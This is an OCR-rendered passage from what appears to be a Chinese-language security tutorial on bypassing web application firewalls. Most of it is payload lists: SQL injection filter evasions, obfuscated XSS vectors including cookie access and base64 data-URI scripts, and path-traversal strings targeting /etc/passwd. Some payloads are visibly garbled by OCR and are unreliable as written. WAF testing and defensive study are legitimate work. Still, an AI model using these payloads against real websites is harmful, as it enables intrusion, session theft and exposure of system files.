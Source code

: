 6 使WAF未检测到对应的规则  
在找到缺少的规则方式中，需要有一定的流程设计，例如将waf部署好后，关闭拉黑的机制，然后进行fuzz的测试。

为此，整个的测试当中，如果以目的为导向的话，那么的目的是找到一条一句的方式，WAF不认为是恶意语句，但这条的恶意语句可以在网站中执行。

在SQL注入的绕过中，可以尝试的语法方式：

```c
###原本为 ’ or 1=1
or 9=9
or 0x47 = 0x47 -->ASCII
or char(32) = ''
or 9 is not null

###原本为 1+union+select+1,2,3/*
1/*union*/union/*select*/select+1,2,3/* 
1/*uniXon*/union/*selXect*/select+1,2,3/*
UNION ALL SELECT

###其他的绕过方式
id=-15 uNloN sELecT 1,2,3,4
id=-15&nbsp;UNlunionON SELselectECT1,2,3,4 
id=1%252f%252a*/UNION%252f%252a/SELECT 
id=-15/*!u%6eion*/ /*!se%6cect*/ 1, 2,3,4...SELECT(extractvalue(ox3C613E61646D6g6É3C2F613E,ox2f61) 
id=10%D6'%20AND%201=2%23 - SELECT 'A'='A'; #1 
```

在xss中，可以尝试的语法方式：

```c
###原本为:Alert('xss')或Alert (1)
Prompt('xss')
Prompt(454)    
Confirm('xss') 
Confirm(123)
Alert(/xss/.source) 
Window[/alert/.source](8)

###原本为:alert(document['cookie'])
alert(document[/coo/.source+/kie/.source])
alert(document[/cookie/.source])
with(document)alert(cookie)
alert(document.cookie)

###原本为: < img src=x onerror=alert(1);> 或javascript:alert(document.cookie)
<svg/onload=alert(1)>
<video src=x onerror=alert(1);>
<audio src=x onerror=alert(1);>
Data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

在文件包含中，可以尝试的语法方式：

```php
###原本为:/etc/passwd
/too/abc/etc/far/.../passwd
/../../../../etc/passwd%oo
/etc//passwd
/etc/ignore/../passwd
/etc/passwd....
```
